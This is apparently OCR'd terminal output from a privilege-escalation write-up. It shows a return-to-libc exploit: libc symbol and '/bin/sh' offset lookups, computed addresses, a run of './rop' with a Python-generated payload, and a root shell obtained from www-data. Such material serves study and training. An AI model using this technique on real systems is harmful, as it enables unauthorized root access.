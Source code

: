   2263: 0002e9f0    78 FUNC    WEAK   DEFAULT   13 on_exit@@GLIBC_2.0
  2406: 000f4c80     2 FUNC    GLOBAL DEFAULT   13 __cyg_profile_func_exit@@GLIBC_2.2


</.binary$ strings -atx /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh         
 15ba0b /bin/sh




558: 000b07c8    24 FUNC    GLOBAL DEFAULT   13 _exit@@GLIBC_2.0
 1457: 0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0



libc_addr is 0xb7e19000
system_addr is 0003ada0
exit_addr is 0002e9d0
sh_addr is 15ba0b



https://github.com/longld/peda



./rop $(python /dev/shm/run_libc.py)


# id
id
uid=0(root) gid=33(www-data) groups=33(www-data)
